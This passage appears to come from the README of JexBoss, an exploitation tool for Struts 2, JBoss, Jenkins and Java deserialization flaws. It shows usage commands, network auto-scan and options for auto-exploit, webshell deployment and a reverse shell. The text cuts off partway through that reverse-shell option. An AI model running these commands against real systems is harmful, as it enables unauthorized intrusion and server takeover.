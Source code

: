 ```
$ python jexboss.py -u http://vulnerable_java_struts2_app/page.action --struts2
```

* For Apache Struts 2 (CVE-2017-5638) with cookies for authenticated resources

```
$ python jexboss.py -u http://vulnerable_java_struts2_app/page.action --struts2 --cookies "JSESSIONID=24517D9075136F202DCE20E9C89D424D"
```

* Auto scan mode:

```
$ python jexboss.py -mode auto-scan -network 192.168.0.0/24 -ports 8080,80 -results report_auto_scan.log
```

* File scan mode:

```
$ python jexboss.py -mode file-scan -file host_list.txt -out report_file_scan.log
```

* More Options:

```
optional arguments:
  -h, --help            show this help message and exit
  --version             show program's version number and exit
  --auto-exploit, -A    Send exploit code automatically (USE ONLY IF YOU HAVE
                        PERMISSION!!!)
  --disable-check-updates, -D
                        Disable two updates checks: 1) Check for updates
                        performed by the webshell in exploited server at
                        http://webshell.jexboss.net/jsp_version.txt and 2)
                        check for updates performed by the jexboss client at
                        http://joaomatosf.com/rnp/releases.txt
  -mode {standalone,auto-scan,file-scan}
                        Operation mode (DEFAULT: standalone)
  --app-unserialize, -j
                        Check for java unserialization vulnerabilities in HTTP
                        parameters (eg. javax.faces.ViewState, oldFormData,
                        etc)
  --servlet-unserialize, -l
                        Check for java unserialization vulnerabilities in
                        Servlets (like Invoker interfaces)
  --jboss               Check only for JBOSS vectors.
  --jenkins             Check only for Jenkins CLI vector.
  --jmxtomcat           Check JMX JmxRemoteLifecycleListener in Tomcat
                        (CVE-2016-8735 and CVE-2016-8735). OBS: Will not be
                        checked by default.
  --proxy PROXY, -P PROXY
                        Use a http proxy to connect to the target URL (eg. -P
                        http://192.168.0.1:3128)
  --proxy-cred LOGIN:PASS, -L LOGIN:PASS
                        Proxy authentication credentials (eg -L name:password)
  --jboss-login LOGIN:PASS, -J LOGIN:PASS
                        JBoss login and password for exploit admin-console in
                        JBoss 5 and JBoss 6 (default: admin:admin)
  --timeout TIMEOUT     Seconds to wait before timeout connection (default 3)

Standalone mode:
  -host HOST, -u HOST   Host address to be checked (eg. -u
                        http://192.168.0.10:8080)

Advanced Options (USE WHEN EXPLOITING JAVA UNSERIALIZE IN APP LAYER):
  --reverse-host RHOST:RPORT, -r RHOST:RPORT
                        Remote host address and port for reverse shell when
```